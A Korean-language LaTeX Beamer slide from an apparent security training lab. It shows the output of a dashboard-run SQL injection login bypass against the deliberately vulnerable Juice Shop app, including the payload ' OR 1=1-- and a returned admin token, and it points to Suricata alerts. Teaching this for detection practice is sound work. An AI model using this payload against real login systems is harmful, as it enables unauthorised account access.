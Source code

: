 \documentclass[aspectratio=169,10pt]{beamer}
\begin{document}
\begin{frame}[fragile,shrink=5]{대시보드에서 실행하면 — 실제 결과}

우리 실습 대시보드에서 ``SQL Injection - Login Bypass''의 \texttt{[Run]} 버튼을 클릭하면:

\vspace{0.2em}
{\ttfamily\tiny
\colorbox{black!90}{\textcolor{white}{\parbox{0.93\textwidth}{
\textcolor{coreBlue}{[run]} Starting "SQL Injection - Login Bypass"...\\
{[*]} Target: http://juice-shop:3000\\[2pt]
{[*]} Sending POST to http://juice-shop:3000/rest/user/login\\
{[*]} Payload: \{"email": "' OR 1=1--", "password": "anything"\}\\[2pt]
{[*]} Status Code: \textcolor{intGreen}{200}\\
{[*]} Response: \{"authentication": \{"token": "eyJ0eXAiOi...", "umail": "\textcolor{accent}{admin@juice-sh.op}"\}\}\\[2pt]
\textcolor{intGreen}{[+] SUCCESS! Login bypassed!}\\
\textcolor{intGreen}{[+] User Email: admin@juice-sh.op}\\
\textcolor{intGreen}{[+] Auth Token: eyJ0eXAiOiJKV1Qi...}\\[2pt]
{[*]} Attack complete. Check Suricata alerts for SID 100001.\\
\textcolor{coreBlue}{[run]} "SQL Injection - Login Bypass" completed.
}}}

}
\end{frame}
\end{document}
